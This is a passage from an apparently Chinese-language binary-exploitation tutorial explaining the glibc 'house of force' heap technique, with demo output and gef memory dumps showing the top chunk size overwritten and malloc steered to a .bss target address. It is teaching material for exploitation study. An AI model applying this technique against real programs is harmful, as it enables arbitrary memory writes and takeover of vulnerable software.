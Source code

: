 ```
We will overwrite a variable at 0x601080

Let's allocate the first chunk of 0x10 bytes: 0x824010.
Real size of our allocated chunk is 0x18.

Overwriting the top chunk size with a big value so the malloc will never call mmap.
Old size of top chunk: 0x20fe1
New size of top chunk: 0xffffffffffffffff

The value we want to write to at 0x601080, and the top chunk is at 0x824028, so accounting for the header size, we will malloc 0xffffffffffddd048 bytes.
As expected, the new pointer is at the same place as the old top chunk: 0x824030
malloc(0x30) => 0x601080!

Now, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.
old string: This is a string that we want to overwrite.
new string: YEAH!!!
```
house_of\_force 是一种通过改写 top chunk 的 size 字段来欺骗 malloc 返回任意地址的技术。我们知道在空闲内存的最高处，必然存在一块空闲的 chunk，即 top chunk，当 bins 和 fast bins 都不能满足分配需要的时候，malloc 会从 top chunk 中分出一块内存给用户。所以 top chunk 的大小会随着分配和回收不停地变化。这种攻击假设有一个溢出漏洞，可以改写 top chunk 的头部，然后将其改为一个非常大的值，以确保所有的 malloc 将使用 top chunk 分配，而不会调用 mmap。这时如果攻击者 malloc 一个很大的数目（负有符号整数），top chunk 的位置加上这个大数，造成整数溢出，结果是 top chunk 能够被转移到堆之前的内存地址（如程序的 .bss 段、.data 段、GOT 表等），下次再执行 malloc 时，攻击者就能够控制转移之后地址处的内存。

首先随意分配一个 chunk，此时内存里存在两个 chunk，即 chunk 1 和 top chunk：
```
gef➤  x/8gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk 1
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x0000000000020fe1  <-- top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
chunk 1 真实可用的内存有 0x18 字节。

假设 chunk 1 存在溢出，利用该漏洞我们现在将 top chunk 的 size 值改为一个非常大的数：
```
gef➤  x/8gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk 1
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0xffffffffffffffff  <-- modified top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
改写之后的 size==0xffffffff。

现在我们可以 malloc 一个任意大小的内存而不用调用 mmap 了。接下来 malloc 一个 chunk，使得该 chunk 刚好分配到我们想要控制的那块区域为止，这样在下一次 malloc 时，就可以返回到我们想要控制的区域了。计算方法是用目标地址减去 top chunk 地址，再减去 chunk 头的大小。
```
gef➤  x/8gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0xfffffffffffff051
0x602030:	0x0000000000000000	0x0000000000000000
gef➤  x/12gx 0x602010+0xfffffffffffff050
0x601060:	0x4141414141414141	0x4141414141414141
0x601070:	0x4141414141414141	0x0000000000000fa9  <-- top chunk
0x601080 <bss_var>:	0x2073692073696854	0x676e697274732061  <-- target
0x601090 <bss_var+16>:	0x6577207461687420	0x6f7420746e617720
0x6010a0 <bss_var+32>:	0x6972777265766f20	0x00000000002e6574
0x6010b0:	0x0000000000000000	0x0000000000000000
```
